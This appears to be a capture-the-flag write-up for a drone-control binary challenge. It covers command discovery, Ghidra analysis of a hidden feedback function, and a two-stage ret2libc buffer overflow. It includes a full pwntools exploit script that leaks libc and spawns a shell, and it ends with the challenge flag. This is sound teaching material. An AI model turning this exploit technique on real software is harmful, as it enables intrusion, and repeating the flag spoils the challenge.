

### Intro
This challenge is a text-based adventure where the user inputs commands to control a drone. While most of these commands have input checks, a sequence of commands will allow the user to access a "deprecated" input feature. This input can be exploited to achieve a buffer overflow, conduct a Return to Libc (Ret2Libc) attack, and execute a shell.

### Finding Commands
The `drone.bin` binary does not give any indication of what the valid commands are, but they can be discovered using `strings`. This also reveals command parameters as well as some indication of what the commands do.
```
<<< Performing %s scan...
Sonar
Radar
Depth
Enter command verb >>> 
Enter command params >>> 
<<< Collecting a sample of %d grams...
<<< Moving %c for %d meters...
<<< Moving arm to position %d..., Current Setting: %d
<<< Entering Diagnostic Mode, arm increased by more than 10.
Please leave your spacesec contact so we can replicate the fault >>> 
<<< Turning the rover by %.2f degrees...
<<< Did not get reason for stopping
Enter reason for stopping >>> 
<<< Rover stopped due to: %s
<<< Recording video for %d seconds...
Disengaging
Engaging
<<< %s the brakes...
<<< Error saving file.
<<< Saved file: %s
Enter filename for the recording >>> 
<<< Warning, did you mean to save with %s extension
Temperature
Humidity
<<< Activating %s sensor...
Pressure
<<< Bug report submitted.
<<< Setting safety mode to %s...
Disabled
Enabled
Leave feedback comments for the developers >>> 
<<< Feedback only available in unSAFE state
<<< Warning: uppercase letters not permitted on SIGN
Re-enter message >>> 
Char[%i]: %c
<<< Displaying message on sign: %s
<<< Setting light intensity to level %c...
<<< %s the claw...
Closing
Opening
Enter resolution (e.g., 720, 1080) >>> 
<<< Camera mode set to %c with resolution %d...
MOVE
BRKS
SCAN
Enter terrain type (e.g., rocky, sandy) >>> 
<<< Moving over %s terrain...
RECD
<<< Invalid sensor type for SENS. Must be 'T', 'H', or 'P'.
<<< Invalid duration for RECD. Must be between 1 and 300 seconds.
LIGH
<<< Turning %c by %.2f degrees...
ARMX
<<< Invalid frequency for TRNS. Must be between 1.0 and 100.0 MHz.
<<< Invalid module for DEPL. Must be 'A', 'B', 'C', or 'D'.
<<< Invalid value for CLAW. Must be 'O' (Open) or 'C' (Close).
<<< Sample size must be an integer not float.
<<< Submitting bug report, attempting to continue
<<< Invalid sample size for SAMP. Must be between 1 and 500 grams.
SIGN
<<< Invalid position for ARMX. Input must be between 1 and 10.
TRNS
<<< Invalid scan type for SCAN. Must be 'R', 'S', or 'D'.
<<< Invalid state for SAFE. Must be 'Y' (Yes) or 'N' (No).
CAMO
<<< Both open and close not permitted simultaneously
Submit bug report (Y|N) >>> 
STOP
<<< Invalid parameters for MOVE. Direction must be 'F' or 'B', and distance must be between 1 and 1000 meters.
Enter light mode (e.g., steady, blinking) >>> 
<<< Light set to %s mode at intensity level %c...
<<< Multi-Mode camera no longer supported, leave feedback if your team needs it.
SAFE
<<< Unknown command: %s
<<< Invalid value for BRKS. You entered %s Must be 'E' (Engage) or 'D' (Disengage).
<<< Submitting bug report
SAMP
<<< Invalid intensity for LIGH. Must be between '1' and '5'.
<<< Invalid mode for CAMO. Must be 'N', 'I', or 'T'.
SENS
<<< Invalid angle for TURN. Must be between -180 and 180 degrees.
DEPL
Enter turn direction (L for left, R for right) >>> 
TURN
CLAW
```

### Decompilation and Analysis
There is no symbol for `main`, but an entry point can be found using Ghidra, which leads to this function which handles command input:


Only a segment of this function is shown, but the function generally compares user input to a command code (MOVE, STOP, SCAN, etc) and executes code corresponding to that command, which usually involves printing out some flavor text.

Most of the commands are unimportant, but the code for CAMO includes a call to a `deprecated_feedback` function, which is of interest:


`deprecated_feedback`:


This function has a `read` call to a buffer - a good target for buffer overflow. However, the "drone"/program must be in unSAFE mode.

Therefore, the correct command sequence is SAFE to turn off safe mode, and then CAMO to access the unsafe feedback input.


### Buffer Overflow + Ret2Libc
The idea is to use Libc to execute a shell using the Libc function `system` and its `/bin/sh` string. To get a Libc address, overflow the buffer to pass the address of `puts` GOT entry to `puts` itself, which prints out the runtime address of `puts`.

Since this involves "calling" `puts`, ROP gadgets can be used to set the values of register rdi to properly pass the GOT entry as an argument into `puts`.

First Buffer Overflow:
```
input_buf: padding (pppppppp)
...
input_buf+0x108:  rdi gadget
input_buf+0x110: puts GOT entry address
input_buf+0x118: puts PLT entry address (will call puts)
input_buf+0x120: deprecated_feedback (to setup up a second buffer overflow)
```

After the runtime address of `puts` is calculated, the addresses of `system` and `/bin/sh` can easily be calculated using known Libc offsets from `puts`. Use ROP gadgets to set up a second buffer overflow to execute a shell.

Second Buffer Overflow:
```
input_buf: padding (pppppppp)
...
input_buf+0x108:  rdi gadget
input_buf+0x110: /bin/sh address
input_buf+0x118: ret gadget (for stack alignment)
input_buf+0x120: system() address
```

Overall Script:
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./drone.bin')
func = p64(elf.symbols['deprecated_feedback'])
rop = ROP(elf)
pop_rdi = p64(rop.rdi.address)
pop_rdx = p64(rop.rdx.address)
ret_gadget = p64(rop.ret.address)
read_got = p64(elf.got['read'])
atoi_got = p64(elf.got['printf'])
padding = b'p' * 264

p = remote('2024.sunshinectf.games', 24004)
puts_got = p64(elf.got['puts'])
puts_plt = p64(elf.plt['puts'])
# setup
p.recvuntil(b'>>> ')
p.sendline(b'SAFE')
p.recvuntil(b'>>> ')
p.sendline(b'N')
p.recvuntil(b'>>> ')
p.sendline(b'CAMO')
p.recvuntil(b'>>> ')
p.sendline(b'N')
p.recvuntil(b'>>> ')
# first pass
payload = b''.join([padding, pop_rdi, puts_got, puts_plt, func])
p.sendline(payload)
leaked = p.recvline()[:6]
puts_addr = u64(b''.join([leaked, b'\x00\x00']))
#print(hex(puts_addr))
# second pass
system_addr = p64(puts_addr - 0x87bd0 + 0x58740) # use libc addrs
binsh_addr = p64(next(elf.search(b'/bin/sh\0')))
payload = b''.join([padding, pop_rdi, binsh_addr, ret_gadget, system_addr])
p.recvuntil(b'>>> ')
p.sendline(payload)
p.interactive()
```

Launching the exploit:


### Flag
sun{drone_Pilot3d_rhrough_th3_cloud5}
